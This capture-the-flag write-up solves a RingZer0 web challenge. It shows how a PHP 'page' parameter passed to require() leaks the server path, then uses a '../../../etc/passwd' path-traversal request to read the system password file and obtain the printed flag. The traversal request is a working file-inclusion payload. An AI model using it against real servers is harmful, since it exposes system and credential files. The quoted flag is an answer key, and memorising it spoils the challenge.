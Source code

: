 # Looking for password file

### Author

[Mr.Un1k0d3r](https://twitter.com/mrun1k0d3r)

### Description

No description
 
## Solution
 
Opening the website we immediately see that the link accepts a GET parameter with the page name (`http://challenges.ringzer0team.com:10075/?page=lorem.php`). Changing `lorem.php` with `test` we get an interesting error:

```
Warning: require(test): failed to open stream: No such file or directory in /var/www/html/index.php on line 43

Fatal error: require(): Failed opening required 'test' (include_path='.:/usr/share/php') in /var/www/html/index.php on line 43
```
In particular, now we know that we are located in `/var/www/html`. The challenge title suggest that we should look for the `/etc/passwd` file. Hence, we try to open `http://challenges.ringzer0team.com:10075/?page=../../../etc/passwd` and we get rewarded with the correct file containing the flag `FLAG-zH9g1934v774Y7Zx5s16t5ym8Z`.